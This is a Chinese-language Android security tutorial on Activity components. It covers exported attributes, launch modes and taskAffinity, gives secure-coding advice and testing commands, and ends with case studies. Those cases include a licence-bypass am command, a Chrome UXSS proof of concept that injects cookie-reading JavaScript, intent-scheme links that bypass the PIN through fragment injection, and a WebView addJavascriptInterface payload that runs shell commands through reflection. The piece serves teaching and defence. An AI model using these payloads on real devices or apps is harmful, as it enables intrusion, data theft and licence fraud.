










## 0x00 科普
Android 每一个Application 都是由Activity、Service、content Provider 和 Broadcast Receiver 等Android 的基本组件所组成，其中Activity 是实现应用程序的主体，它承担了大量的显示和交互工作，甚至可以理解为一个"界面"就是一个Activity。 
Activity 是为用户操作而展示的可视化用户界面，比如说，一个activity 可以展示一个菜单项列表供用户选择，或者显示一些包含说明的照片。  

一个短消息应用程序可以包括一个用于显示作为发送对象的联系人的列表的activity，一个给选定的联系人写短信的activity 以及翻阅以前的短信和改变设置的 activity。  

尽管它们一起组成了一个内聚的用户界面，但其中每个activity都与其它的保持独立，每个都是以Activity 类为基类的子类实现。  
一个应用程序可以只有一个activity，或如刚才提到的短信应用程序那样，包含很多个。每个activity的作用，以及其数目，自然取决于应用程序及其设计。  

一般情况下，总有一个应用程序被标记为用户在应用程序启动的时候第一个看到的，从一个activity 转向另一个的方式是靠当前的activity 启动下一个。  

## 0x01 知识要点
参考：http://developer.android.com/guide/components/activities.html
### 生命周期
  

### 启动方式
显式启动  
配置文件中注册组件
``` xml
<activity android:name=".ExampleActivity" android:icon="@drawable/app_icon">
<intent-filter>
    <action android:name="android.intent.action.MAIN" />
    <category android:name="android.intent.category.LAUNCHER" />
</intent-filter>
</activity>
``` 
直接使用intent 对象指定application 以及activity 启动
```
Intent intent = new Intent(this, ExampleActivity.class);
startActivity(intent);
```
未配置intent-filter的action属性，activity只能使用显式启动。
私有Activity推荐使用显式启动。
隐式启动  
```
Intent intent = new Intent(Intent.ACTION_SEND);
intent.putExtra(Intent.EXTRA_EMAIL, recipientArray);
startActivity(intent);
```
### 加载模式launch mode
Activity 有四种加载模式：

* standard：默认行为。每次启动一个activity，系统都会在目标task 新建一个实例。
* singleTop:如果目标activity 的实例已经存在于目标task 的栈顶，系统会直接使用该实例，并调用该activity 的onNewIntent()（不会重新create）
* singleTask:在一个新任务的栈顶创建activity 的实例。如果实例已经存在，系统会直接使用该实例，并调用该activity 的onNewIntent()（不会重新create）
* singleInstance:和"singleTask" 类似，但在目标activity 的task 中不会再运行其他的activity，在那个task 中永远只有一个activity。

设置的位置在AndroidManifest.xml 文件中activity 元素的android:launchMode 属性：  
`<activity android:name="ActB" android:launchMode="singleTask"></activity>`

Activity launch mode 用于控制创建task 和Activity 实例。默认“standard“模式。Standard 模式一次启动即会生成一个新的Activity 实例并且不会创建新的task，被启动的Activity 和启动的Activity 在同一个栈中。当创建新的task时，intent中的内容有可能被恶意应用读取，所以建议若无特别需求使用默认的standard 模式，即不配置launch mode 属性，launchMode 能被Intent 的flag 覆盖。  

### taskAffinity
android系统中task 管理Activity，Task的命名取决于root Activity 的affinity。  
默认情况下，app中的每个Activity 都使用app的包名作为affinity。而Task的分配取决于app，故默认情况下一个app 中所有的Activity 属于同一task。要改变task的分配，可以在AndroidManifest.xml 文件中设置affinity 的值，但是这样做会有不同task 启动Activity 携带的intent 中的信息被其他应用读取的风险。

### FLAG_ACTIVITY_NEW_TASK
intent flag 中一个重要的 flag
启动Activity 时通过 setFlags() 或者addFlags() 方法设置intent 的flags，属性能够改变launch mode，FLAG_ACTIVITY_NEW_TASK 标记代表创建新的task（被启动的Activity 既不在前台也不在后台）。  
FLAG_ACTIVITY_MULTIPLE_TASK标记能和FLAG_ACTIVITY_NEW_TASK 同时设置，这种情况下必会创建的task，所以intent 中不应携带敏感数据。
### Task
stack:Activity 承担了大量的显示和交互工作，从某种角度上将，我们看见的应用程序就是许多个Activity的组合。为了让这许多 Activity协同工作而不至于产生混乱，Android平台设计了一种堆栈机制用于管理Activity，其遵循先进后出的原则，系统总是显示位于栈顶的Activity，位于栈顶的Activity 也就是最后打开的Activity。  
Task:是指将相关的Activity 组合到一起，以Activity Stack 的方式进行管理。从用户体验上讲，一个“应用程序”就是一个Task，但是从根本上讲，一个Task是可以有一个或多个Android Application组成的

如果用户离开一个task很长时间，系统会清理栈顶以下的activity，这样task 被从新打开时，栈顶activity 就被还原了。  
  


### Intent Selector
多个Activity 具有相同action 时，当此调用此action 时会弹出一个选择器供用户选择。
### 权限
`android:exported`

一个Activity 组件能否被外部应用启动取决于此属性，设置为true时Activity 可以被外部应用启动，设置为false 则不能，此时Activity 只能被自身app启动。（同user id或者root也能启动）  
没有配置intent-filter 的action属性exported 默认为false（没有filter只能通过明确的类名来启动activity 故相当于只有程序本身能启动），配置了intent-filter的action属性exported默认为true。  
exported属性只是用于限制Activity是否暴露给其他app，通过配置文件中的权限申明也可以限制外部启动activity。  
`android:protectionLevel`

http://developer.android.com/intl/zh-cn/guide/topics/manifest/permission-element.html
    
    

normal:默认值。低风险权限，只要申请了就可以使用，安装时不需要用户确认。  
dangerous：像WRITE_SETTING  和SEND_SMS 等权限是有风险的，因为这些权限能够用来重新配置设备或者导致话费，使用此protectionLevel来标识用户可能关注的一些权限。  
Android将会在安装程序时，警示用户关于这些权限的需求，具体的行为可能依据Android 版本或者所安装的移动设备而有所变化。
signature：这些权限仅授予那些和本程序应用了相同密钥来签名的程序。  
signatureOrSystem:与signature类似，除了一点，系统中的程序也需要有资格来访问，这样允许定制Android 系统应用也能获得权限，这种保护等级有助于集成系统编译过程。  
``` xml
<!-- *** POINT 1 *** Define a permission with protectionLevel="signature" -->
<permission
android:name="org.jssec.android.permission.protectedapp.MY_PERMISSION"
android:protectionLevel="signature" />
<application
android:icon="@drawable/ic_launcher"
android:label="@string/app_name" >
<!-- *** POINT 2 *** For a component, enforce the permission with its permission attribute -->
<activity
android:name=".ProtectedActivity"
android:exported="true"
android:label="@string/app_name"
android:permission="org.jssec.android.permission.protectedapp.MY_PERMISSION" >
<!-- *** POINT 3 *** If the component is an activity, you must define no intent-filter -->
</activity>
``` 
### 关键方法

* onCreate(Bundle savedInstanceState)
* setResult(int resultCode, Intent data)
* startActivity(Intent intent)
* startActivityForResult(Intent intent, int requestCode)
* onActivityResult(int requestCode, int resultCode, Intent data)
* setResult (int resultCode, Intent data)
* getStringExtra (String name)
* addFlags(int flags)
* setFlags(int flags)
* setPackage(String packageName)
* getAction()
* setAction(String action)
* getData()
* setData(Uri data)
* getExtras()
* putExtra(String name, String value)

## 0x02 Activity分类
Activity类型和使用方式决定了其风险和防御方式,故将Activity分类如下： Private、Public、Parter、In-house
   

### private activity
私有Activity 不应被其他应用启动相对是安全的  
创建activity 时：  
1、不指定taskAffinity //task管理activity。task的名字取决于根activity的affinity，默认设置中Activity使用包名做为affinity。task由app分配，所以一个应用的Activity在默认情况下属于相同task，跨task启动Activity的intent 有可能被其他app读取到。  
2、不指定lunchMode //默认standard，建议使用默认，创建新task 时有可能被其他应用读取intent的内容。  
3、设置exported 属性为false  
4、谨慎处理从intent 中接收的数据，不管是否内部发送的intent  
5、敏感信息只能在应用内部操作  

使用activity时：  
6、开启activity 时不设置FLAG_ACTIVITY_NEW_TASK 标签 //FLAG_ACTIVITY_NEW_TASK标签用于创建新task（被启动的Activity并未在栈中）。  
7、开启应用内部activity使用显式启动的方式  
8、当putExtra() 包含敏感信息目的应是app内的activity  
9、谨慎处理返回数据，即可数据来自相同应用  

### public activity
公开暴露的Activity 组件，可以被任意应用启动  

创建activity：  
1、设置exported属性为true  
2、谨慎处理接收的intent  
3、有返回数据时不应包含敏感信息  
使用activity：  
4、不应发送敏感信息  
5、当收到返回数据时谨慎处理  
Parter、in-house部分参阅 http://www.jssec.org/dl/android_securecoding_en.pdf  
### 安全建议

* app内使用的私有Activity不应配置intent-filter，如果配置了intent-filter需设置exported属性为false。
* 使用默认taskAffinity
* 使用默认launchMode
* 启动Activity 时不设置intent 的FLAG_ACTIVITY_NEW_TASK标签
* 谨慎处理接收的intent 以及其携带的信息
* 签名验证内部（in-house）app
* 当Activity返回数据时候需注意目标Activity 是否有泄露信息的风险
* 目的Activity 十分明确时使用显式启动
* 谨慎处理Activity 返回的数据，目的Activity 返回的数据有可能是恶意应用伪造的
* 验证目标Activity 是否恶意app，以免受到intent 欺骗，可用hash 签名验证
* When Providing an Asset Secondhand, the Asset should be Protected with the Same Level of Protection
* 尽可能的不发送敏感信息，应考虑到启动public Activity 中intent 的信息均有可能被恶意应用窃取的风险

## 0x04 测试方法
查看activity：

* 反编译查看配置文件AndroidManifest.xml 中activity组件（关注配置了intent-filter 的及未设置export=“false”的）
* 直接用RE打开安装后的app 查看配置文件
* Drozer扫描:run app.activity.info -a packagename
* 动态查看：logcat 设置filter 的tag 为ActivityManager

启动activity：

* adb shell：am start -a action -n package/componet
* drozer: run app.activity.start --action android.action.intent.VIEW ...
* 自己编写app调用 startActiviy()或 startActivityForResult()
* 浏览器 intent scheme 远程启动

## 0x05 案例
### 案例1：绕过本地认证
绕过McAfee的key验证，免费激活。  
$ am start -a android.intent.action.MAIN -n com.wsandroid.suite/com.mcafee.main.MfeMain

   

### 案例2：本地拒绝服务
可以被外部app 调用 export 出来的接口，导致 crash  

### 案例3：UXSS
漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml 配置文件如下  
``` xml
<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask"
 android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置data为"http://google.com"  
再次调用时设置data 为恶意js 例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com 域中执行.  

"com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. POC如下  
``` java
public class TestActivity extends Activity {
@Override
public void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    Intent i = new Intent();
            ComponentName comp = new ComponentName(
                             "com.android.chrome",
                                "com.google.android.apps.chrome.SimpleChromeActivity");
            i.setComponent(comp);
            i.setAction("android.intent.action.VIEW");
            Uri data = Uri.parse("http://google.com");
            i.setData(data);

            startActivity(i);

                try {
                    Thread.sleep(5000);
                    }
                      catch (Exception e) {}

            data = Uri.parse("javascript:alert(document.cookie)");  
            i.setData(data);

            startActivity(i);
}
}
```
### 案例4：隐式启动intent 包含敏感数据
暂缺可公开案例,攻击模型如下图。  
    

### 案例5：Fragment注入(绕过PIN+拒绝服务)
Fragment 这里只提一下，以后可能另写一篇。
```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;
 launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
</a><br>
```

```  
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
</a><br>
```
  

### 案例6:webview RCE
```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
</a><br>
```

  

Webview 类是Android SDK 中封装的用于显示网页的组件，通过webview 组件应用可以轻松地开发内置浏览器访问网页，同时webview 组件中还提供了一些接口实现应用与页面中Javascript 脚本的交互，其中用于javascript 调用导出的java 类的 AddJavascripInterface 方法被发现存在远程命令执行漏洞，攻击者可以找到存在"getClass"方法的对象，然后通过反射的机制，得到Java Runtime对象，然后调用静态方法来执行系统命令。  

用户在使用包含此漏洞的应用访问特定的网页时会执行网页中的恶意代码，可导致手机被远程控制。相关漏洞代码示例如下：  
```
WebView webView = new WebView (R.id.webView1);
webView.getSettings().setJavaScriptEnabled(true);
webView.addJavascriptInterface(new TEST(), "demo");
webView.loadUrl("http://127.0.0.1/check.html");
```
Check.html 代码：  

``` html
<html>
<script>
function execute(cmd){
return demo.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo  "hello" > /sdcard/check.txt']);
</script>
</html>
```
调用demo对象的getClass方法得到java.lang.Runtime对象，然后通过java反射机制调用getRuntime方法获得runtime实例，最终通过exec方法执行命令。代码执行成功会在SD卡根目录下生成check.txt文件。  

访问 webview.html 进行漏洞自动检测，代码 如下：  
原理：遍历所有window的对象，然后找到包含getClass方法的对象,如果存在此方法的对象则说明该接口存在漏洞。  

``` html
<script type="text/javascript">

function check()
{
for (var obj in window)
{

    try {

        if ("getClass" in window[obj]) {

            try{

                window[obj].getClass();

                document.write('<span style="color:red">'+obj+'</span>');

                document.write('<br />');

            }catch(e){

                }

        }

    } catch(e) {

        }

}
}

check();

</script>
```
webview addJavascript 接口远程代码执行漏洞最早发现于2012年（CVE-2012-6636），2013年出现新攻击方法（CVE-2013-4710），同时在2014年发现在安卓 android/webkit/webview 中默认内置的一个searchBoxJavaBridge_ 接口同时存在远程代码执行漏洞（CVE-2014-1939），开发者可以使用removeJavascriptInterface("searchBoxJavaBridge_") 方法来移除这个默认接口以确保应用安全。
而前不久，有安全人员发现了两个新的攻击向量（attack vectors ）存在于 android/webkit/AccessibilityInjector.java 中，调用了此组件的应用在开启辅助功能选项中第三方服务的安卓系统中会造成远程代码执行漏洞。这两个接口分别是"accessibility" 和"accessibilityTraversal" ，此漏洞原理与searchBoxJavaBridge_接口远程代码执行相似，均为未移除不安全的默认接口，不过此漏洞需要用户启动系统设置中的第三方辅助服务，利用条件较复杂。  

## 0x06 参考  
http://www.jssec.org/dl/android_securecoding_en.pdf  
http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf  


